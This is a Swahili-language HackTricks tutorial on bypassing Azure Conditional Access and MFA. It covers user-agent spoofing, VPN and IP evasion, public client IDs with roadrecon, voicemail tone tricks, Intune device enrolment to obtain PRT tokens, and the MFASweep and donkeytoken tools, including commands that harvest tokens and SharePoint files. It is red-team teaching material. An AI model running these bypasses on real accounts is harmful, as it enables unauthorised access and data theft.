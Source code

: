 # Az - Sera za Ufikiaji wa Masharti / MFA Bypass

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa za Msingi

Sera za Ufikiaji wa Masharti za Azure ni sheria zilizowekwa katika Microsoft Azure ili kutekeleza udhibiti wa ufikiaji kwa huduma na programu za Azure kulingana na **masharti** fulani. Sera hizi husaidia mashirika kulinda rasilimali zao kwa kutumia udhibiti sahihi wa ufikiaji chini ya hali sahihi.\
Sera za ufikiaji wa masharti kimsingi **zinaeleza** **Nani** anaweza kufikia **Nini** kutoka **Wapi** na **Jinsi**.

Hapa kuna mifano kadhaa:

1. **Sera ya Hatari ya Kuingia**: Sera hii inaweza kuwekwa ili kuhitaji uthibitisho wa hatua nyingi (MFA) wakati hatari ya kuingia inagundulika. Kwa mfano, ikiwa tabia ya kuingia ya mtumiaji ni ya kawaida ikilinganishwa na muundo wao wa kawaida, kama kuingia kutoka nchi tofauti, mfumo unaweza kuomba uthibitisho wa ziada.
2. **Sera ya Uzingatiaji wa Kifaa**: Sera hii inaweza kuzuia ufikiaji wa huduma za Azure tu kwa vifaa ambavyo vinakidhi viwango vya usalama vya shirika. Kwa mfano, ufikiaji unaweza kuruhusiwa tu kutoka kwa vifaa ambavyo vina programu ya antivirus iliyo na sasisho au vinatumia toleo fulani la mfumo wa uendeshaji.

## Mipango ya Sera za Ufikiaji wa Masharti

Inawezekana kwamba sera ya ufikiaji wa masharti **inaangalia taarifa fulani ambazo zinaweza kubadilishwa kwa urahisi kuruhusu kupita sera hiyo**. Na ikiwa kwa mfano sera hiyo ilikuwa inakamilisha MFA, mshambuliaji ataweza kuipita.

### Majukwaa ya Vifaa - Hali ya Kifaa

Inawezekana kuweka hali kulingana na **jukwaa la kifaa** (Android, iOS, Windows, macOS), hata hivyo, hii inategemea **user-agent** hivyo ni rahisi kupita. Hata **kufanya chaguo zote zitekeleze MFA**, ikiwa unatumia **user-agent ambayo haijatambuliwa** utaweza kupita mFA.

### Mikoa: Nchi, anuwai za IP - Hali ya Kifaa

Bila shaka ikiwa hii imewekwa katika sera ya masharti, mshambuliaji anaweza kutumia tu **VPN** katika **nchi iliyoruhusiwa** au kujaribu kupata njia ya kufikia kutoka **anwani ya IP iliyoruhusiwa** ili kupita hali hizi.

### Programu za Wateja za Office365

Unaweza kuashiria kwamba ikiwa wateja **wanapata programu za Office 365 kutoka kwa kivinjari wanahitaji MFA**:

<figure><img src="../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

Ili kupita hii, inawezekana kudanganya kwamba unajiandikisha katika programu kutoka kwa programu ya desktop (kama Microsoft Teams katika mfano ufuatao) ambayo itapita ulinzi:
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
Kama programu ya Microsoft Teams ina ruhusa nyingi, utaweza kutumia ufikiaji huo.

{% hint style="success" %}
Unaweza kupata I**D ya programu zaidi za umma** zenye ruhusa zilizowekwa awali za Office365 katika hifadhidata ya roadtools:

{% code overflow="wrap" %}
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

Huu shambulio ni wa kuvutia hasa kwa sababu kwa kawaida programu za umma za Office365 zitakuwa na ruhusa za kufikia baadhi ya data.

### Programu Nyingine

Kwa kawaida, programu nyingine zilizoundwa na watumiaji hazitakuwa na ruhusa na zinaweza kuwa za faragha.\
Hata hivyo, watumiaji pia wanaweza kuunda **programu za umma** wakizipa baadhi ya **ruhusa.**

Kesi inayoweza kutokea ambapo sera imewekwa **kuhitaji MFA ili kufikia programu** wakati mtumiaji anatumia **browza** (labda kwa sababu ni programu ya wavuti na hivyo itakuwa njia pekee), ikiwa kuna **programu ya proxy** -programu inayoruhusiwa **kuingiliana na programu nyingine kwa niaba ya watumiaji**-, mtumiaji anaweza **kuingia kwenye programu ya proxy** na kisha kupitia programu hii ya proxy **kuingia kwenye programu iliyolindwa na MFA awali.**

Angalia [**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep) na [**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken) mbinu.

## Mipango Mingine ya Az MFA Bypass

### Sauti ya Kengele

Moja ya chaguo za Azure MFA ni **kupokea simu kwenye nambari ya simu iliyowekwa** ambapo mtumiaji ataulizwa **kutuma herufi `#`**.

{% hint style="danger" %}
Kama herufi ni tu **sauti**, mshambuliaji anaweza **kuathiri** ujumbe wa **voicemail** wa nambari ya simu, kuweka kama ujumbe **sauti ya `#`** na kisha, wakati wa kuomba MFA hakikisha kwamba **simu ya waathiriwa inatumika** (ikiitafuta) ili simu ya Azure irejeleze kwenye voicemail.
{% endhint %}

### Vifaa Vinavyokubalika

Sera mara nyingi huomba kifaa kinachokubalika au MFA, hivyo **mshambuliaji anaweza kujiandikisha kifaa kinachokubalika**, kupata tokeni ya **PRT** na **kupita njia hii MFA**.

Anza kwa kujiandikisha **kifaa kinachokubalika katika Intune**, kisha **pata PRT** na:
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
Pata maelezo zaidi kuhusu aina hii ya shambulio katika ukurasa ufuatao:

{% content-ref url="../az-lateral-movement-cloud-on-prem/pass-the-prt.md" %}
[pass-the-prt.md](../az-lateral-movement-cloud-on-prem/pass-the-prt.md)
{% endcontent-ref %}

## Zana

### [roadrecon](https://github.com/dirkjanm/ROADtools)

Pata sera zote
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep ni script ya PowerShell inayojaribu **kuingia kwenye huduma mbalimbali za Microsoft kwa kutumia seti iliyotolewa ya akidi na itajaribu kubaini kama MFA imewezeshwa**. Kulingana na jinsi sera za ufikiaji wa masharti na mipangilio mingine ya uthibitishaji wa hatua nyingi zilivyowekwa, baadhi ya itifaki zinaweza kuishia kuwa na hatua moja tu. Pia ina ukaguzi wa ziada wa mipangilio ya ADFS na inaweza kujaribu kuingia kwenye seva ya ADFS ya ndani ikiwa itagundulika.
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token ni seti ya kazi ambazo zina lengo la kusaidia washauri wa usalama wanaohitaji kuthibitisha Sera za Ufikiaji wa Masharti, majaribio ya portali za Microsoft zilizo na 2FA, n.k.
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**Jaribu kila portal** ikiwa inawezekana **kuingia bila MFA**:
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
Kwa sababu **Azure** **portal** **haijakandamizwa**, inawezekana **kukusanya token kutoka kwa kiunganishi cha portal ili kufikia huduma yoyote iliyogunduliwa** na utekelezaji wa awali. Katika kesi hii, Sharepoint ilitambuliwa, na token ya kuifikia inahitajika:

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

Ikiwa token ina ruhusa Sites.Read.All (kutoka Sharepoint), hata kama huwezi kufikia Sharepoint kutoka mtandao kwa sababu ya MFA, inawezekana kutumia token hiyo kufikia faili kwa kutumia token iliyozalishwa:
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## References

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
